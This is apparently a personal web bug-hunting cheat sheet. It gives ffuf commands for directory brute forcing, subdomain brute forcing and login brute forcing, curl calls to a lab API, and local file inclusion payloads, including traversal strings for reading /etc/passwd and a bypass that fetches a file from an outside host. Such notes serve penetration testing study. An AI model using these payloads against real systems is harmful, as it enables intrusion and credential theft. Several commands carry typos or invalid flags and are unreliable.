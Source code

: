 # Bug-Hunting

# recon & footprinting
- https://buitlwith.com
- Wappalyzer plugin
- https://securityheaders.com
-     curl -I www.<raman>.com
- if you get hit with a redirection ex. Cloudflare
-     curl -I -L www.<raman>.com
you also can use nmap to gather information -A

# Directory Enumeration and Brute Forcing
Basic usage
-     ffuf -w wordlist.txt -u http://example.com/FUZZ
Add custom header
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -H "Authorization: Bearer <token>"
Use POST method
-     ffuf -w wordlist.txt -u http://example.com/api -X POST -d "param1=value1&param2=value2"
Finding subdomain
-     ffuf -u https://FUZZ.example.com -w wordlist.txt -mc 200,301,302,403
Follow redirects
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -r
Use a proxy
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -p http://127.0.0.1:8080
Exclude directories
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -exclude-dirs "admin,backup,test"
Use custom match string
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -c "Password incorrect"
Number of threads
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -t 40
filter HTTP status
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -fc 404,401
file extensions
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -e .php
recursion
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -recursion

# Authentication & Authorization Attacks
https://appsecexplained.gitbook.io/appsecexplained/
brute force password
-     ffuf -reqeust raman.txt -request-proto http -w wordlist.txt
Clusterbomb attack
- make sure to mention the following in the request file (in burp) "username=FUZZUSER&password=FUZZPASS"
-     ffuf -request raman.txt -request-proto http -mode clusterbomb -w wordlist.txt:FUZZUSER -w pass.txt:FUZZPASS -fs 3256,3376
- API Index
- POST /login.php
-     curl -X POST -H "Content-Type: application/json" -d '{username: "admin", password: "password123"}' http://localhost/labs/api/login.php
- Get /account.php
-     curl -X GET "http://localhost/labs/api/account.php?token=JWT"
- PUT /account.php
-     curl -X PUT -H "Content-Type: application/json" -d '{token: "JWT", username:"username", bio: "New bio information."}' http://localhost/labs/api/account.php

# Local File Inclusion
using ffuf
-     ffuf -request api.txt -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 19,20
some filters bypass
-     ..././..././..././..././..././etc/passwd
-     hthttptp://10.10.16.2:8000/file.txt

# SQL injection

